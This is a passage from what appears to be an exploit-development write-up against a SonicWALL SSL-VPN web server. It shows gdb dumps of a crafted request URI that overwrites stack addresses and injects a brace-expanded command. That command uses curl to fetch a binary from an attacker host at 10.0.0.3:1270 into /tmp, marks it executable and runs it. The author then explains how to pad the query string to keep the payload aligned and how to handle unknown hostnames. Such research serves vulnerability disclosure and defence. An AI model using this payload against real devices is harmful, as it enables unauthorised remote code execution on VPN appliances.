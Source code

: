 And here is where it lands:

```
(gdb) printf "%s", $ebp+8        
$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaaSCRIPT_URI=https://sslvpn/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaaHTTPS=onSERVER_SIGNATURE=SERVER_SOFTWARE=SonicWALL SSL-VPN Web ServerSERVER_NAME=sslvpnSERVER_ADDR=10.0.0.7SERVER_PORT=443REMOTE_ADDR=10.0.0.3DOCUMENT_ROOT=/usr/src/EasyAccess/www/htdocsREQUEST_SCHEME=httpsCONTEXT_PREFIX=CONTEXT_DOCUMENT_ROOT=/usr/src/EasyAccess/www/htdocsSERVER_ADMIN=root@sslvpnSCRIPT_FILENAME=/usr/src/EasyAccess/www/cgi-bin/staticContentREMOTE_PORT=38236REDIRECT_URL=/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaaGATEWAY_INTERFACE=CGI/1.1SERVER_PROTOCOL=HTTP/0.9REQUEST_METHOD=GETREQUEST_URI=/%24%87%a4%bf%38%88%a4%bf%38%88%a4%bf%08%b7%06%08;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa%24%87%a4%bf%38%88%a4%bf%38%88%a4%bf%08%b7%06%08;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa?zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzSCRIPT_NAME=/missing.html
(gdb) x/4x $ebp+8
0xbfa48250:     0xbfa48724      0xbfa48838      0xbfa48838      0x0806b708
(gdb) 
```

Any unknown value between the beginning of the payload and the end *will* mess up alignment. Let's break it down a bit better:

```
10.0.0.3
REDIRECT_QUERY_STRING=zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz 
REDIRECT_WAF_NOT_LICENSED=1
REDIRECT_SCRIPT_URL=/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa
REDIRECT_SCRIPT_URI=https://sslvpn/$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa$���8���8��;{curl,10.0.0.3:1270,-o,/tmp/a};{chmod,+x,/tmp/a};/tmp/a;aaaaaaa
REDIRECT_HTTPS=on
REDIRECT_REQUEST_METHOD=GET
REDIRECT_STATUS=404
WAF_NOT_LICENSED=1
SCRIPT_URL=/
```

The obvious issues are:

* IP address at the beginning
* Hostname (`sslvpn` in the example)

Both are easily accounted for simply by modifying query string (z*400+). However, discovering the actual hostname (sslvpn is just the default) and the attacker's IP as it appears here might not always be as trivial. I'm actually not sure of the best way to determine the hostname... but just to prove non-default works:
